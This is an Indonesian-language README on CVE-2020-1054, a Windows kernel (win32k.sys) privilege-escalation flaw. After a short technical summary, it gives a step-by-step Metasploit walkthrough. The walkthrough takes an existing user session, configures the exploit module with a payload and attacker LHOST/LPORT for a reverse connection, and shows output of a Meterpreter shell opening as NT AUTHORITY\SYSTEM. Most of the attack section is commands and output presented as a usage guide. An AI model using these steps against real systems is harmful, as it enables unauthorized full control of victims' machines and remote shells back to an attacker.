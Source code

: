 # CVE-2020-1054

## A. Apa itu CVE-2020-1054?

[CVE-2020-1054](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1054) adalah kerentanan Local Privilege Escalation (LPE) pada driver kernel Windows, yaitu `win32k.sys`. Kerentanan ini memungkinkan penyerang yang telah mendapatkan akses sebagai user biasa untuk mengeksekusi kode arbitrer dalam mode kernel dan memperoleh hak akses tertinggi di sistem (`NT AUTHORITY\SYSTEM`).

Eksploitasi ini terjadi karena kurangnya validasi dalam manipulasi koordinat memori pada objek `tagWND` melalui fungsi `ScrollWindowEx`, yang memungkinkan `write-what-where primitive` di kernel space. Modul eksploit di Metasploit memanfaatkan kelemahan ini melalui fungsi `DrawIconEx`.

## B. Detail Teknis:
- CVE ID: `CVE-2020-1054`
- Tanggal Rilis: `12 Mei 2020`
- Tipe: Local Privilege Escalation (LPE)
- Komponen: `win32k.sys`
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-1054`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Modul Exploit CVE-2020-1054:

   ```
   msf6 > use exploit/windows/local/cve_2020_1054_drawiconex_lpe
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] Running automatic check ("set AutoCheck false" to disable)
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [+] The target appears to be vulnerable.
   [*] Executing exploit...
   [*] Launching netsh to host the DLL...
   [+] Process 1204 launched.
   [*] Reflectively injecting the DLL into 1204...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 22 opened (192.168.1.42:4444 -> 192.168.1.50:49181) at 2025-05-14 18:38:33 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
